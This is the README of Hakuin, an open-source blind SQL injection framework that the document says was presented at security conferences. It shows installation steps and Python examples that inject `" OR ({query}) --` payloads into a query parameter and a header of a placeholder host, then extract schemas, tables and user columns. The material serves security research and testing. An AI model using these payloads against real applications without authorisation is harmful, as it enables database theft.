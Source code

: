 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework and tool written in Python 3. It abstracts away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, parallelism, and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
hk -h
```

Note that installation is optional and you can use Hakuin directly from the source codes:
```
git clone https://github.com/pruzko/hakuin
cd hakuin
python3 hk.py -h
```

## Command Line Tool
Hakuin ships with an intuitive tool called `hk` that offers most of Hakuin's features directly from the command line. To find out more, run:
```
hk -h
```

## Custom Scripting
Sometimes, BSQLI vunerabilities are too tricky to be exploited from the command line and require custom scripting. This is where Hakuin's Python package shines, giving you total control over the extraction process.

To customize exploitation, you need to instruct Hakuin on how to inject its queries. This is done by deriving a class from the `Requester` and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `MSSQL`, `MySQL`, `OracleDB`, `Postgres`, and `SQLite` DBMSs. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting MSSQL/MySQL/OracleDB/Postgres/SQLite
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import MSSQL, MySQL, OracleDB, Postgres, SQLite

class StatusRequester(Requester):
    ...

async def main():
    ext = Extractor(requester=StatusRequester(), dbms=SQLite())
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB metadata.

##### Example 1 - Extracting DB Schemas/Tables/Columns
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained model
schema_names = await ext.extract_schema_names(strategy='model')             # extracts schema names
tables = await ext.extract_table_names(strategy='model')                    # extracts table names
columns = await ext.extract_column_names(table='users', strategy='model')   # extracts column names
metadata = await ext.extract_meta(strategy='model')                         # extracts all table and column names
```

Once you know the DB structure, you can extract the actual content.

##### Example 1 - Extracting Column Data
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')    # detects types and extracts columns

# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')    # extracts text columns
res = await ext.extract_column_int(table='users', column='id')                              # extracts int columns
res = await ext.extract_column_float(table='products', column='price')                      # extracts float columns
res = await ext.extract_column_blob(table='users', column='id')                             # extracts blob columns
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
